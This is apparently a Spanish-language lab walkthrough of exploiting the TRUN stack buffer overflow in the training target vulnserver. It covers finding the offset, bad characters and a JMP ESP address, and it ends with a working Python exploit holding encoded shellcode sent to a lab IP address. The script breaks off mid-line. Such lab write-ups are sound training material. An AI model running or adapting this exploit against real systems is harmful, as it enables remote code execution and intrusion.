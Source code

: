 # Buffer-Overflow TRUN function

[https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)

vulnserver tiene 4 funciones en las que declara un buffer, cada buffer es distinto en cada función:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled.png)

vulnserver tiene una funcionalidad que se llama TRUN la cual utiliza la funcion3 vista anteriormente, en esta condición podemos ver que se declara un buffer de 3000 en la que hay otra condición que para que se cumpla tiene que haber un ‘.’ en el input del usuario.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%201.png)

Si reflejamos esto en la practica, le pasamos a vulnserver esta cadena:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%202.png)

Miramos en el Inmunity Debugger y hemos conseguido crashear vulnserver y sobrescribir el EIP

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%203.png)

Calculamos el offset con la herramienta de metasploit `patter_create`

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%204.png)

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%205.png)

Miramos en el inmunity debugger el valor del EIP

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%206.png)

Utilizamos la herramienta `pattern_offset` para ver el numero de caracteres en el cual empezamos a sobrescribir el EIP

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%207.png)

hemos sacado el offset de vulnserver y sabemos que tenemos que pasarle 2006 A para sobrescribir el EIP.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%208.png)

Probamos a sobrescribir el EIP con 4 “B”.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%209.png)

Ahora comprobamos si hay algún bad_chars, de la siguiente forma:

Enviamos los bad_chars después de sobrescribir el EIP:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2010.png)

Vamos al inmunity debugger y vemos si en el ESP hay algún bad_char

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2011.png)

Como podemos ver en el ESP no hay ningún bad character, el único que da siempre fallos es el carácter nulo \x00\, nuestro payload no puede tener este carácter.

Ahora tenemos que buscar un modulo vulnerable, con el inmunity debugger podemos encontrarla gracias al modulo mona, ejecutando el comando `!mona modules`

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2012.png)

Vemos que tiene un modulo que no tiene ninguna protección añadida:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2013.png)

Ahora podemos meter código ensamblador en este modulo, para ello lo haremos de la siguiente forma:

Queremos hacer un jump al ESP, con la herramienta `nasm_shell` podemos sacar el valor que tiene que tener para que realice un jmp esp

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2014.png)

Con mona buscamos las instrucciones que queremos con el siguiente comando:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2015.png)

Tenemos varios resultados, podemos probar con cualquiera de ellos, ahora en vez de escribir las 4 B, tenemos que escribir la dirección de esos resultados.

ponemos en pausa la dirección que hemos utilizado para poder comprobarlo.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2016.png)

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2017.png)

EIP tiene el valor que queremos, ahora solo tenemos que crear nuestro exploit.

ahora puedo empezar a añadir mi código malicioso, de la siguiente manera.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2018.png)

Creamos nuestro script y añadimos el shellcode:

```python
#!/usr/bin/python3

from pwn import *
from struct import pack

#CTRL+C
def def_handler(sig,frame):
	print("\n[!]Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
	p1 = log.progress("Buffer-Overflow Vulnserver")

	shellcode =  b""
	shellcode += b"\xb8\x31\xa1\x07\xc8\xda\xc8\xd9\x74\x24\xf4"
	shellcode += b"\x5a\x33\xc9\xb1\x52\x83\xea\xfc\x31\x42\x0e"
	shellcode += b"\x03\x73\xaf\xe5\x3d\x8f\x47\x6b\xbd\x6f\x98"
	shellcode += b"\x0c\x37\x8a\xa9\x0c\x23\xdf\x9a\xbc\x27\x8d"
	shellcode += b"\x16\x36\x65\x25\xac\x3a\xa2\x4a\x05\xf0\x94"
	shellcode += b"\x65\x96\xa9\xe5\xe4\x14\xb0\x39\xc6\x25\x7b"
	shellcode += b"\x4c\x07\x61\x66\xbd\x55\x3a\xec\x10\x49\x4f"
	shellcode += b"\xb8\xa8\xe2\x03\x2c\xa9\x17\xd3\x4f\x98\x86"
	shellcode += b"\x6f\x16\x3a\x29\xa3\x22\x73\x31\xa0\x0f\xcd"
	shellcode += b"\xca\x12\xfb\xcc\x1a\x6b\x04\x62\x63\x43\xf7"
	shellcode += b"\x7a\xa4\x64\xe8\x08\xdc\x96\x95\x0a\x1b\xe4"
	shellcode += b"\x41\x9e\xbf\x4e\x01\x38\x1b\x6e\xc6\xdf\xe8"
	shellcode += b"\x7c\xa3\x94\xb6\x60\x32\x78\xcd\x9d\xbf\x7f"
	shellcode += b"\x01\x14\xfb\x5b\x85\x7c\x5f\xc5\x9c\xd8\x0e"
	shellcode += b"\xfa\xfe\x82\xef\x5e\x75\x2e\xfb\xd2\xd4\x27"
	shellcode += b"\xc8\xde\xe6\xb7\x46\x68\x95\x85\xc9\xc2\x31"
	shellcode += b"\xa6\x82\xcc\xc6\xc9\xb8\xa9\x58\x34\x43\xca"
	shellcode += b"\x71\xf3\x17\x9a\xe9\xd2\x17\x71\xe9\xdb\xcd"
	shellcode += b"\xd6\xb9\x73\xbe\x96\x69\x34\x6e\x7f\x63\xbb"
	shellcode += b"\x51\x9f\x8c\x11\xfa\x0a\x77\xf2\xc5\x63\x9d"
	shellcode += b"\x80\xae\x71\x61\x84\x95\xff\x87\xec\xf9\xa9"
	shellcode += b"\x10\x99\x60\xf0\xea\x38\x6c\x2e\x97\x7b\xe6"
	shellcode += b"\xdd\x68\x35\x0f\xab\x7a\xa2\xff\xe6\x20\x65"
	shellcode += b"\xff\xdc\x4c\xe9\x92\xba\x8c\x64\x8f\x14\xdb"
	shellcode += b"\x21\x61\x6d\x89\xdf\xd8\xc7\xaf\x1d\xbc\x20"
	shellcode += b"\x6b\xfa\x7d\xae\x72\x8f\x3a\x94\x64\x49\xc2"
	shellcode += b"\x90\xd0\x05\x95\x4e\x8e\xe3\x4f\x21\x78\xba"
	shellcode += b"\x3c\xeb\xec\x3b\x0f\x2c\x6a\x44\x5a\xda\x92"
	shellcode += b"\xf5\x33\x9b\xad\x3a\xd4\x2b\xd6\x26\x44\xd3"
	shellcode += b"\x0d\xe3\x64\x36\x87\x1e\x0d\xef\x42\xa3\x50"
	shellcode += b"\x10\xb9\xe0\x6c\x93\x4b\x99\x8a\x8b\x3e\x9c"
	shellcode += b"\xd7\x0b\xd3\xec\x48\xfe\xd3\x43\x68\x2b"
	
	buffer = b"A"*2006 
	buffer += pack("<I", 0x625011bb) # JMP ESP
	buffer += b"\x90"*24
	buffer += shellcode
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect = s.connect(('192.168.234.133', 9999))
	s.send(b'TRUN .' + buffer)
	p1.status("Payload sen
```

Lo ejecutamos y vemos si ganamos acceso:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%2019.png)
